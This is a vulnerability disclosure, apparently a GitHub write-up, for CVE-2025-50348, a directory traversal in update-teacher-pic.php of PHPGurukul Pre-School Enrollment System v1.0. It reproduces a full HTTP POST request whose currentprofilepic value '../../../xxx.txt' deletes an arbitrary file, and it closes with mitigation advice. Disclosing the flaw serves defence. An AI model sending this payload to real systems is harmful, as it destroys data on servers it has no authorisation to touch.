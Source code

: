 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-4(update-teacher-pic.php)-CVE-2025-50348

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with currentprofilepic in the update-teacher-pic.php file 
   Lines 15 and 16 get the currentprofilepic parameter and concatenate it into oldprofilepic. currentprofilepic is not filtered.
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/8.png)   
   Line 40 unlink oldprofilepic, which leads to this directory traversal vulnerability
   ![9](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/9.png) 
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the update-teacher-pic.php page,   Teachers-Manage-Add Teacher-Update Profile Pic-Update Teacher Profile Pic
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/2.png)
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/3.png)
   ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/7.png)
  
   Intercept the data packet and find the problematic parameter currentprofilepic
   
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/4.png)

   Transformed into attack payload    


    POST /Pre-School-Enrollment-System-PHP/preschool/admin/update-teacher-pic.php?tid=1 HTTP/1.1
    Host: localhost
    sec-ch-ua-platform: "Windows"
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCOslMZHmxE3UWS8E
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-Site: same-origin
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/update-teacher-pic.php?tid=1
    Accept-Language: zh-CN,zh;q=0.9
    Accept-Encoding: gzip, deflate, br, zstd
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    Upgrade-Insecure-Requests: 1
    sec-ch-ua-mobile: ?0
    Sec-Fetch-Mode: navigate
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    Origin: http://localhost
    Sec-Fetch-Dest: document
    Cache-Control: max-age=0
    Sec-Fetch-User: ?1
    Content-Length: 5637583

    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="currentprofilepic"

    ../../../xxx.txt
    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="profilepic"; filename="804a28a9c5be300aafa9f83527956d13.jpeg"
    Content-Type: image/jpeg


    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="submit"


    ------WebKitFormBoundaryCOslMZHmxE3UWS8E--


   Create xxx.txt test file in  D:\phpstudy_pro\WWW\Pre-School-Enrollment-System-PHP
      ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/5.png)

   Send payload, xxx.txt file has been deleted   
   ![8](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/6.png)   
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
